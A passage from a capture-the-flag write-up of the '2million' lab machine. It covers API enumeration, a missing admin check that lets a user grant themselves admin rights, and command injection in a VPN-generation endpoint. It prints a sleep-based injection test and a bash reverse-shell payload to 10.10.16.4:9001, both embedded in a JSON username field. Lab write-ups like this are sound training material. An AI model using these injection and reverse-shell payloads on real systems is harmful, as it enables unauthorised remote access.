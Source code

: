 We can now sign in and get an account to access the main webpage.
![2million](assets/images/2million/Pasted image 20250301184421.png)

#### Becoming an Admin
Digging around the webpage I find that there is only one interesting directory which is used to generate VPN files. I tried to generate and regenerate different VPN files but I was not able to get anything from it. I got a nudge at this moment to do a GET request on `/api/v1`. 

![2million](assets/images/2million/Pasted image 20250301200037.png)
 We can now easily see all the api endpoints and it is clear how to continue. We see that the  `api/v1/user/auth` can be used to see if we are and admin user. 
 
```
{
	"loggedin":true,
	"username":"fresh",
	"is_admin":0
}
```

As expected we are not and admin but we see that there is an api endpoint to edit our user data `/admin/settings/update`. We can change our admin status from this endpoint and we are now an admin user. I was expecting this endpoint to be dissalowed for non admin users but it is not which gives us permission to edit our data.
![2million](assets/images/2million/Pasted image 20250301200946.png)

## Foothold
---

Going back to the main webpage I see that nothing changed. Generating the VPN files is the same and we get no new directories we can go to, therefore, the only reasonable place to get a foothold seems to be the `admin/vpn/generate` endpoint. We can generate other user's VPN files by sending some json data. At this point I had to get another nudge to find that this endpoint is vulnerable to remote code execution. We can quickly test this by adding a sleep command and see how long does the response from the server take. I should have seen this, endpoints whcih are only allowed to be accessed by privileged users are often vulnerable to exploits, as these are not as carefully protected like other endpoints which can be accessed by all users. 

```
{
	"username":"test; sleep 5"
}
```

The response took more than five seconds so we have verified that we have command execution. Trying with other commands like `whoami` does not give any output but this is fine since we only need the reverse shell to execute. I send the following payload and I get a reverse shell as **www-data**

```
{
	"username":"username ; bash -c 'bash -i >& /dev/tcp/10.10.16.4/9001 0>&1'"
}
```
## Privilege Escalation
---
We land on the website's root directory and we see that there is a **Database.php** file. Which contains the following lines of code inside of the Database class.
